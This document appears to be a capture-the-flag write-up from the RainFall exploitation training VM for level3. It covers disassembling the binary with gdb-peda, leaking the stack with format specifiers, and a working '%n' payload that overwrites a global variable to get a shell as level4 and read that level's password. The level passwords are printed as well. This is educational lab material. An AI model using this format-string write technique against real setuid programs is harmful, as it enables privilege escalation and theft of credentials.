 # Level3 - Format string vulnerability - Basic write

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level3 | `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02` |
| level4 | `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

1. Connect to `level3` user

```shell
ssh level3@$SNOW_HOST -p 4242
# Enter the password

ls -l
> -rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```

Notice there is a binary with level3 setuid and setgid.

2. Debug level3

Execute level3

```shell
./level3
(stdin) abcdef
> abcdef
```

Seems to be like level3

Lets debug the binary

```shell
(gdb) info functions

> (...)
  0x080484a4  v                                                                                                                           │id
  0x0804851a  main
  (...)
```

```shell
gdb-peda$ pdisas main
  0x0804851a <+0>:     push   %ebp
  0x0804851b <+1>:     mov    %esp,%ebp
  0x0804851d <+3>:     and    $0xfffffff0,%esp
  0x08048520 <+6>:     call   0x80484a4 <v>
  0x08048525 <+11>:    leave
  0x08048526 <+12>:    ret

gdb-peda$ pdisas v
  0x080484a4 <+0>:     push   %ebp
  0x080484a5 <+1>:     mov    %esp,%ebp
  0x080484a7 <+3>:     sub    $0x218,%esp
  0x080484ad <+9>:     mov    0x8049860,%eax
  0x080484b2 <+14>:    mov    %eax,0x8(%esp)
  0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
  0x080484be <+26>:    lea    -0x208(%ebp),%eax
  0x080484c4 <+32>:    mov    %eax,(%esp)
  0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
  0x080484cc <+40>:    lea    -0x208(%ebp),%eax
  0x080484d2 <+46>:    mov    %eax,(%esp)
  0x080484d5 <+49>:    call   0x8048390 <printf@plt>
  0x080484da <+54>:    mov    0x804988c,%eax
  0x080484df <+59>:    cmp    $0x40,%eax
  0x080484e2 <+62>:    jne    0x8048518 <v+116>
  0x080484e4 <+64>:    mov    0x8049880,%eax
  0x080484e9 <+69>:    mov    %eax,%edx
  0x080484eb <+71>:    mov    $0x8048600,%eax
  0x080484f0 <+76>:    mov    %edx,0xc(%esp)
  0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
  0x080484fc <+88>:    movl   $0x1,0x4(%esp)
  0x08048504 <+96>:    mov    %eax,(%esp)
  0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
  0x0804850c <+104>:   movl   $0x804860d,(%esp)
  0x08048513 <+111>:   call   0x80483c0 <system@plt>
  0x08048518 <+116>:   leave
  0x08048519 <+117>:   ret
```

```bash
~/level3 <<< %s%s%s%s%s%s%s%s%s%s%s%s
> Segmentation fault (core dumped)

~/level3 <<< "%08x.%08x.%08x.%08x.%08x\n"
> 00000200.b7fd1ac0.b7ff37d0.78383025.3830252e\n
```

We can show some parts of the stack memory by using a format string. This works, because we instruct the printf-function to retrieve five parameters from the stack and display them as 8-digit padded hexadecimal numbers.

```shell
level3@RainFall:~$ ./level3 <<< "AAAA.%p%p%p%p"
AAAA.0x2000xb7fd1ac00xb7ff37d00x41414141
level3@RainFall:~$ ./level3 <<< "AAAA.%4\$p"
AAAA.0x41414141

python -c 'print("A" * 40 + "%4\$n")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%4\$n
b*v+40
b\*v+54
run <<< AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%4\$n
gdb-peda\$ x/x 0xbffff440
0xbffff440: 0x41

0x0804988c => \x8c\x98\x04\x08
b*v+54
run < <(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%n"')

(echo `python -c 'print "\x8c\x98\x04\x08" + "%60x" + "%4$n"'` ; cat) | ~/level3
Wait what?!
id
> uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
cat /home/user/level4/.pass
> b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)

- [Format string attack - Introduction](https://owasp.org/www-community/attacks/Format_string_attack)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)
- [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

### Shellcode

- []()

### C

- []()

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man system](https://linux.die.net/man/3/system)
